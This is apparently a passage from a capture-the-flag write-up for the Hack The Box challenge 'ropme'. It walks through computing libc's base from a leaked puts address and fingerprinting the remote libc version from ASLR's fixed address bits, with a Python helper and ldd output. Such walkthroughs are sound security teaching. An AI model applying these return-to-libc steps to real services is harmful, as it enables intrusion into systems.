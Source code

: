 Next step is to compute the base of libc from that value, **but before we do that, we must determine the libc version of the remote machine** this requires our script to be a little bit more advanced and to work with sockets, don't worry - there's not that much we need to add!

At the end, we will use something like this in our code:

```python
def compute_libc_base_from_puts(puts_va):
    # this is true for libc 2.27
    # this is true for my local machine only
    puts_offset_in_libc = 0x0809c0

    return puts_va - puts_offset_in_libc
```

So the next step is to figure out what version of libc the remote machine is running, and then place the correct offset in our function so we could know the base of libc and thus the addresses of `system` and `"/bin/sh"`.

### Leaking GLIBC version

We have to remember that ASLR, doesn't randomize the location of libc entirely,
let's observe:
```
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ ldd ./ropme | grep libc
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f2c2aa0b000)
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ ldd ./ropme | grep libc
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f05947fd000)
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ ldd ./ropme | grep libc
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007efe992b4000)
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ ldd ./ropme | grep libc
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f2a13198000)
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ ldd ./ropme | grep libc
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd33e7f5000)
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ ldd ./ropme | grep libc
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb92bd11000)
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ ldd ./ropme | grep libc
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7b0e759000)
```

Notice any pattern? well, the last three hex digits of the address are always zero, also - the start of the address is `7f`.
Which makes some sense because we cannot really expect libc to pop somewhere before the .text segment in our process, or in another weird location. So it has to have some bounds.

This still isn't a good enough excuse to try brute force, but - this feature can help us in determining the version of libc which was loaded. How? Well, if the virtual address of `puts` is `0x7ffff7a649c0`, and there are only so many different offsets which `puts` can be placed in (in every version of libc the offset may differ). Then based only on that address, we could compute which of all possible offsets will place the base of libc at an address that looks like that: `0x7f_______000`.
